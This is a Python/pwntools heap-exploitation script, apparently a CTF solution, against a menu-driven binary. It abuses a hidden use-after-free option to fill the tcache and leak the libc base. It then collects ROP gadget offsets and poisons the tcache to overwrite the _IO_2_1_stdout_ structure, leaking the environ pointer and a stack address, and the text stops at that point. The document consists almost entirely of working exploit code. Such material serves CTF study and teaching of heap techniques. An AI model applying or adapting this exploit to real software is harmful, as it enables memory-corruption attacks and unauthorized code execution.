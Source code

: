 ```plain

def add(size,content):
    sla('Choice: ',str(1))
    sla('Please input size: ',str(size))
    sa('Please input content: ',content)

def delete(index):
    sla('Choice: ',str(2))
    sla('Please input idx: ',str(index))

def show(index):
    sla('Choice: ',str(3))
    sla('Please input idx: ',str(index))

def UAF(index):
    sla('Choice: ',str(666))
    sla('Please input idx: ',str(index))


for i in range(7):
    add(0x80,'aaaa')

add(0x80,'aaaa')
add(0x80,'aaaa')
add(0x80,'aaaa')
add(0x10,'aaaa')

for i in range(7):
    delete(i)

UAF(8)
show(8)

libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x1ecbe0
leak("libc_base ",libc_base)
stdout = libc_base + libc.sym['_IO_2_1_stdout_']

environ = libc_base + libc.sym['environ']
leak('environ ',environ)
read_addr = libc_base + libc.sym['read']
open_addr = libc_base + libc.sym['open']
puts_addr = libc_base + libc.sym['puts']

pop_rdi_ret = libc_base + 0x0000000000023b6a
pop_rsi_ret = libc_base + 0x000000000002601f
pop_rdx_ret = libc_base + 0x0000000000142c92


delete(7)

add(0x80,'aaaa') #0

delete(8)



add(0x70,'aaaa') #1
add(0x90,p64(0)+p64(0x91)+p64(stdout)) #2
add(0x80,'aaaa') #3

add(0x80,p64(0xfbad1887)+p64(0)*3+p64(environ)+p64(environ+8)) #4
stack_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))-0x128
leak('stack_addr ',stack_addr)
```